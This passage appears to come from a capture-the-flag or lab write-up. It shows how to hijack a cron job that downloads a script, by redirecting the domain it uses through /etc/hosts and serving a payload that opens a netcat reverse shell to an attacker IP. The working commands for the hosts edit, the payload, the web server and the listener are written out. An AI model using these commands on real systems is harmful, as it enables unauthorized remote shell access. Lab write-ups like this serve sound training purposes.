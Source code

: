 ![e850a0bdd5d1ba50da45387cce9ba4c7.png](./_resources/e850a0bdd5d1ba50da45387cce9ba4c7.png)


We simply have to edit the `/etc/hosts` file to point the `cherryontop.tld` domain to our machine.
Then we add the file `coinflip.sh` containing a payload with it's parent directories to our machine and run a webserver on port `8000`
Once the crontab gets executed, it will get the contents of **our coinflip.sh** and execute it on the target system:

```bash
# Run on victim machine
echo "<attacker_ip> cherryontop.tld" >> /etc/hosts 
```
```bash
# Run on attacker machine
mkdir -p ./home/bob-boba
echo "nc.traditional <attacker_ip> 53 -e /bin/bash" > ./home/bob-boba/coinflip.sh
python3 -m http.server 8000
nc -lvnp 53
```

- After about a minute or so, we see that a **GET request** is made to retrieve the file `coinflip.sh`
![d9acc6f31333501d9ed09cd2fdfdc5c2.png](./_resources/d9acc6f31333501d9ed09cd2fdfdc5c2.png)
- It is then executed which gives us a reverse shell
![0ee37e490fbaa4b91cec76c76237bea3.png](./_resources/0ee37e490fbaa4b91cec76c76237bea3.png)
